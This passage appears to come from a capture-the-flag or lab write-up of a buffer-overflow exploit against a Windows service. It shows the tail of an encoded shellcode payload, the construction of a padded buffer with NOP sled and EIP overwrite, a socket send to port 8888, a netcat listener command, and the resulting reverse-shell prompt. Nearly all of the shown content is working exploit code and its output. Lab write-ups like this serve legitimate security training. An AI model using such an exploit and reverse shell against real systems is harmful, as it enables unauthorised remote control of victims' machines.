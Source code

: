 ```python
payload += b"\x83\x7b\x89\x5b\xc1\x87\x7a\x19\x2a\x77\x7b"
payload += b"\x7e\xa2\x92\x4a\xbe\xd0\xd7\xfd\x0e\x92\xb5"
payload += b"\xf1\xe5\xf6\x2d\x81\x88\xde\x42\x22\x26\x39"
payload += b"\x6d\xb3\x1b\x79\xec\x37\x66\xae\xce\x06\xa9"
payload += b"\xa3\x0f\x4e\xd4\x4e\x5d\x07\x92\xfd\x71\x2c"
payload += b"\xee\x3d\xfa\x7e\xfe\x45\x1f\x36\x01\x67\x8e"
payload += b"\x4c\x58\xa7\x31\x80\xd0\xee\x29\xc5\xdd\xb9"
payload += b"\xc2\x3d\xa9\x3b\x02\x0c\x52\x97\x6b\xa0\xa1"
payload += b"\xe9\xac\x07\x5a\x9c\xc4\x7b\xe7\xa7\x13\x01"
payload += b"\x33\x2d\x87\xa1\xb0\x95\x63\x53\x14\x43\xe0"
payload += b"\x5f\xd1\x07\xae\x43\xe4\xc4\xc5\x78\x6d\xeb"
payload += b"\x09\x09\x35\xc8\x8d\x51\xed\x71\x94\x3f\x40"
payload += b"\x8d\xc6\x9f\x3d\x2b\x8d\x32\x29\x46\xcc\x5a"
payload += b"\x9e\x6b\xee\x9a\x88\xfc\x9d\xa8\x17\x57\x09"
payload += b"\x81\xd0\x71\xce\xe6\xca\xc6\x40\x19\xf5\x36"
payload += b"\x49\xde\xa1\x66\xe1\xf7\xc9\xec\xf1\xf8\x1f"
payload += b"\xa2\xa1\x56\xf0\x03\x11\x17\xa0\xeb\x7b\x98"
payload += b"\x9f\x0c\x84\x72\x88\xa7\x7f\x15\xbd\x3d\x71"
payload += b"\xd4\xa9\x43\x8d\x17\x91\xcd\x6b\x7d\xf5\x9b"
payload += b"\x24\xea\x6c\x86\xbe\x8b\x71\x1c\xbb\x8c\xfa"
payload += b"\x93\x3c\x42\x0b\xd9\x2e\x33\xfb\x94\x0c\x92"
payload += b"\x04\x03\x38\x78\x96\xc8\xb8\xf7\x8b\x46\xef"
payload += b"\x50\x7d\x9f\x65\x4d\x24\x09\x9b\x8c\xb0\x72"
payload += b"\x1f\x4b\x01\x7c\x9e\x1e\x3d\x5a\xb0\xe6\xbe"
payload += b"\xe6\xe4\xb6\xe8\xb0\x52\x71\x43\x73\x0c\x2b"
payload += b"\x38\xdd\xd8\xaa\x72\xde\x9e\xb2\x5e\xa8\x7e"
payload += b"\x02\x37\xed\x81\xab\xdf\xf9\xfa\xd1\x7f\x05"
payload += b"\xd1\x51\x8f\x4c\x7b\xf3\x18\x09\xee\x41\x45"
payload += b"\xaa\xc5\x86\x70\x29\xef\x76\x87\x31\x9a\x73"
payload += b"\xc3\xf5\x77\x0e\x5c\x90\x77\xbd\x5d\xb1"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)


```

next, run the `nc`
```
nc -lnvp 443
```
after that, run the exploit and and we got the system
```
┌──(justakazh㉿youknowitsme)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.129.25.107] 49821
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
